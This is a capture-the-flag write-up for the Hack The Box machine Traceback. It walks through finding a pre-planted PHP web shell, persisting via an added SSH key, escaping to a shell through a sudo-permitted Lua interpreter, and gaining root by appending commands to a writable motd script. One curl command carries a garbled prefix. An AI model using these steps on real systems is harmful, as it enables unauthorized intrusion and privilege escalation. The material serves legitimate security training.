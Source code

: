 ```yaml
---
title: "HTB Traceback Write-up"
date: 2020-05-02T00:00:00-00:00
summary: A write-up for Traceback on hackthebox.eu
tags: ['hackthebox', 'ctf']
---
```


This is a quick write-up for the HTB machine [Traceback](https://www.hackthebox.eu/home/machines/profile/233).

## Enumeration

A quick port scan revealed a couple services.

```text
nmap -Pn 10.10.10.181

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

I visited the web server, which had a "hacked" message. I tried enumerating directories, webpages, and HTTP methods, but nothing was of interest other than the message

```html
<body>
	<center>
		<h1>This site has been owned</h1>
		<h2>I have left a backdoor for all the net. FREE INTERNETZZZ</h2>
		<h3> - Xh4H - </h3>
		<!--Some of the best web shells that you might need ;)-->
	</center>
</body>
```

I was lost for a bit, but focusing on the message I decided to look for common web shells that might already exist on the server. Once I finally searched for `Xh4H` and `web shell` together, I found the intended twitter message linking to a list of web shells.

![.](/img/htb-traceback/tb-twitter.png)

I cloned the web shell repo and used a curl loop to see if any of the default filenames were found on the server.

```bash
git clone https://github.com/TheBinitGhimire/Web-Shells.git
for file in `ls Web-Shells`; do echo $file && vvvvvvvvvvvvvvcurl -I http://10.10.10.181/$file; done

punk-nopass.php
HTTP/1.1 404 Not Found

r57.php
HTTP/1.1 404 Not Found

smevk.php
HTTP/1.1 200 OK
```

I quickly found that one of the scripts is on the server. After visiting the web shell `10.10.10.181/smevk.php`, there is a login page and it uses the credentials hardcoded in the script.

![.](/img/htb-traceback/tb-login.png)

The web shell provides a lot of immediate info about our user-level permissions, including our username webadmin, and allows us to run a variety of post-exploitation enumeration scripts.

![.](/img/htb-traceback/tb-webshell1.png)

## Privilege Escalation

I prefer to work from a standard SSH session rather than a web shell, so I add my public SSH key to the current user's ~/.ssh/authorized_keys and then SSH to the host.

![.](/img/htb-traceback/tb-webshell2.png)

```bash
ssh webadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat May  2 19:11:34 2020 from 10.10.14.34
webadmin@traceback:~$ 
```

The first thing I notice is the connection error in the motd when connecting. I checked for the user flag in webadmin's home directory, but didn't find it. Instead there is a `note.txt` with a pointed message about lua - which implies privesc is needed.

```text
webadmin@traceback:~$ cat ~/note.txt 
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

I started doing some standard user privesc checks and `sudo -l` finally led me to the next step. If you use any sort of enumeration or post post-exploitation scripts, this should get caught.

```text
webadmin@traceback:~$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

This means that our current user `webadmin` can run the `luvit` program as `sysadmin`. Luvit happens to be a lua REPL interpreter, which lines up with the `note.txt` from earlier. Running levit as sysadmin via sudo, we can spawn a shell with sysadmin's permissions. The user flag is in sysadmin's home directory.

```text
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/bash")'
sysadmin@traceback:~$ cat ~/user.txt
# HTB{user_flag}
```

Moving onto the root flag, I started privesc enumeration. When viewing the running processes, I noticed an odd job interacting with motd then I recalled the altered motd from earlier.

```text
root       5660  0.0  0.0   4628   772 ?        Ss   17:48   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```

In hindsight, I got a little lucky with noticing the running process because it would disappear and reappear. This turned out to be a cronjob, which I believe could have been caught with further enumeration.

Checking out both directories involved in the process, I found writeable files in `/etc/update-motd.d/`. These files are altering the motd banner when connecting via SSH.

```text
sysadmin@traceback:~$ ls -lha /etc/update-motd.d/
total 32K
drwxr-xr-x  2 root sysadmin 4.0K Aug 27  2019 .
drwxr-xr-x 80 root root     4.0K Mar 16 03:55 ..
-rwxrwxr-x  1 root sysadmin  981 May  3 12:22 00-header
-rwxrwxr-x  1 root sysadmin  982 May  3 12:22 10-help-text
-rwxrwxr-x  1 root sysadmin 4.2K May  3 12:22 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 May  3 12:22 80-esm
-rwxrwxr-x  1 root sysadmin  299 May  3 12:22 91-release-upgrade

sysadmin@traceback:~$ cat /etc/update-motd.d/00-header 
#!/bin/sh

[ -r /etc/lsb-release ] && . /etc/lsb-release


echo "\nWelcome to Xh4H land \n"
```

Because this file is writeable, we can add some code that will be executed by root when we first connect over SSH. I simply added a command to display the root flag in the SSH motd banner. Then I reconnected to see the flag.

```text
sysadmin@traceback:~$ echo "cat /root/root.txt" >> /etc/update-motd.d/00-header 
sysadmin@traceback:~$ exit
webadmin@traceback:~$ exit
logout
Connection to 10.10.10.181 closed.
root@kali:~# ssh webadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

HTB{root_flag}


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun May  3 12:19:35 2020 from 10.10.14.34
```
